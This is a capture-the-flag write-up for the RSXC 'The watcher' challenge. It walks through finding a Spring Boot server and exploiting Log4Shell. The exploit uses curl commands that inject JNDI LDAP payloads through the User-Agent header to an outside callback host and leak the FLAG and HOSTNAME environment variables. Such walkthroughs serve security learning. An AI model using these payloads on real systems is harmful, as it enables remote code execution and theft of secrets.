





# 24 - The watcher

> We have found a service that watches our every step, are you able to figure out how we can read the FLAG from the environment? NB. Container will be restarted every 30 minutes.
> 
> http://rsxc.no:20024

---

This website greets us with: "Be careful, I'm logging everything...". I instantly thought this could potentially be a `log4j` challenge, but I was also thinking that it could be some other log poisoning vuln. Maybe some PHP RCE if we could access the logs through some other page or something.

Then I browsed to `http://rsxc.no:20024/a` and saw this message:



I Googled for `Whitelabel Error Page` and found this:



Looks like the server is running `Spring Boot`! I don't know much about `Spring Boot`, but I'm pretty sure that it's Java based.

> Spring Boot is an open source Java-based framework used to create a micro Service.

It certainly is, this ***MUST*** be a `log4j` challenge then!

I've read articles and watched videos about the `log4j` vulnerability so I know how it works. I also know that I don't really want to set up an `LDAP`-server for the callback. But I think we can manage to skip that step if we use one of the online test tools.

I'm going to use this online tool from Huntress Labs: https://log4shell.huntress.com/. I've seen this in action from John Hammond on Twitter and YouTube. It also supports testing for exfiltration of data. Based on the challenge text I'm pretty sure we need to read the `FLAG` environment variable. So that's going to be handy.

So, when we use the online tool we see the following:



We can see two payloads, one with an environment variable in the URI and onw without:

```bash
${jndi:ldap://log4shell.huntress.com:1389/6a39278e-2407-48d8-93c8-af03083834a3}

${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/6a39278e-2407-48d8-93c8-af03083834a3}
```

This `URI` contains the `hostname` and `port` for the `LDAP` callback server and our unique identifier. Now it's up to us to get the payload to the server somehow and make sure that the payload is being logged.

That should be easy since the target website brags; "Be careful, I'm logging everything...".

Let's try sending our payload through the `User-Agent`-header. And also add `${env:FLAG}` to the payload to read the correct variable.

```bash
$ curl -H "User-Agent: ${jndi:ldap://log4shell.huntress.com:1389/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...
```

So after a few attempts with no callback and trying some different ways of delivering and encoding the payload. I finally realized that I forgot to escape the `$` character which `bash` processes otherwise.

```bash
$ curl -H "User-Agent: \${jndi:ldap://log4shell.huntress.com:1389/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...

$ curl -H "User-Agent: \${jndi:ldap://log4shell.huntress.com:1389/${env:FLAG}/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...

$ curl -H "User-Agent: \${jndi:ldap://log4shell.huntress.com:1389/${env:FLAG}/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...

$ curl -H "User-Agent: \${jndi:ldap://log4shell.huntress.com:1389/${env:FLAG}/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...

$ curl -H "User-Agent: \${jndi:ldap://log4shell.huntress.com:1389/\${env:FLAG}/6a39278e-2407-48d8-93c8-af03083834a3}" "http://rsxc.no:20024/"
Be careful, I'm logging everything...
```

So after making sure to escape the `$` character in both places I finally got the environment variable in the callback:



The flag seems to be `base32` encoded. Let's decode it:




## Solution

The flag is: `RSXC{We_do_like_logging_right?}`
